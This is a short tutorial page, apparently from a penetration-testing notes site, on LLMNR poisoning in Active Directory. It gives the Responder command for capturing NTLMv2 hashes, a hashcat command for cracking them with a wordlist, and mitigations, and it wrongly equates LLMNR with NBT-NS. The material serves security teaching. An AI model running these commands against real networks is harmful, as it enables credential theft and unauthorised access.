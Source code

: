 ```yaml
---
title: "LLMNR Poisoning"
description: "LLMNR Poisoning using Responder."
lead: "Using responder.py to attack Active Directory."
date: 2021-11-06T11:53:35+01:00
lastmod: 2021-11-06T11:53:35+01:00
draft: false
images: []
menu: 
  active_directory:
    parent: "mitm_relay"
weight: 10
toc: true
---
```


## What is LLMNR?

- Used to identify hosts when DNS fails
- Previously known as NBT-NS
- Key flaw: services utilize a user's username and NTLMv2 hash when appropriately responded too

## Attack Flow

- Trick victim into connecting to malicious server under our control
- Capture hash
- Service name cannot be resolvable over DNS

## Exploitation

```bash
# Run responder
python responder.py -I tun0 -rdwv

# Crack hash with hashcat
hashcat -a 0 -m 5600 hashes.txt rockyou.txt
```

## Mitigation

- Disable LLMNR and NBT-NS
- If the functions can't be disabled, then
  - require Network Access Control
  - require strong password policy
